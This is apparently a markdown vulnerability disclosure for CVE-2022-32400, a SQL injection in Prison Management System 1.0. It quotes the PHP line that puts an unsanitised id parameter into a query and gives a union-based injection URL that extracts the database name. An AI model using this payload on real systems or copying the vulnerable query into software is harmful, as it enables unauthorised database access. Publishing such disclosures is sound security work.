

# CVE-2022-32400
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/user/manage_user.php:4`
```php
$user = $conn->query("SELECT * FROM users where id ='{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Union Based
http://localhost/pms/admin/?page=user/manage_user&id=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10,11%23
```
- `http://localhost/pms/admin/?page=user/manage_user&id=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10,11%23`
